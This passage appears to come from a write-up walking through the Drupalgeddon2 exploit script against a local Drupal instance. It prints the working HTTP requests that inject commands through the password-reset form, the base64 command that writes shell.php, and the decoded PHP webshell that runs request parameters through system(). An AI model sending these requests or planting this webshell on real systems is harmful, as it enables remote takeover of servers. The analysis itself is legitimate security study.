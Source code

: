 

    POST /?q=user/password&name[%23post_render][]=passthru&name[%23type]=markup&name[%23markup]=echo%20VQMJGJAU HTTP/1.1
    User-Agent: drupalgeddon2
    Connection: close
    Host: 127.0.0.1:8888
    Content-Length: 47
    Content-Type: application/x-www-form-urlencoded

    form_id=user_pass&_triggering_element_name=name



The `name[%23markup]` field is set to a command. I'm not going to dive
too much deeper into the details of why this executes - [This
post](https://research.checkpoint.com/2018/uncovering-drupalgeddon-2/)
from Checkpoint does a really nice job going into the details. But to
see what the script does, it first sends the request above with the
final bit being `echo VQMJGJAU`. This is just to verify that the exploit
works. Then it tries to talk to the backdoor (presumably to see if it's
already uploaded). When that fails (404), it sends the next request:



    POST /?q=user/password&name[%23post_render][]=passthru&name[%23type]=markup&name[%23markup]=echo%20PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9%20|%20base64%20-d%20|%20tee%20shell.php HTTP/1.1
    User-Agent: drupalgeddon2
    Connection: close
    Host: 127.0.0.1:8888
    Content-Length: 47
    Content-Type: application/x-www-form-urlencoded

    form_id=user_pass&_triggering_element_name=name



This time the command is:



    echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee shell.php



The base64 string is pipped into `base64` to decode it and then `tee`
will output it to the paste *and* write it to `shell.php`.

The command decodes to a PHP webshell:



    <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }



Now there's a request to `shell.php` which is successful (running the
`hostname` command to set up the prompt), and now it's left to the user
to issue additional commands.





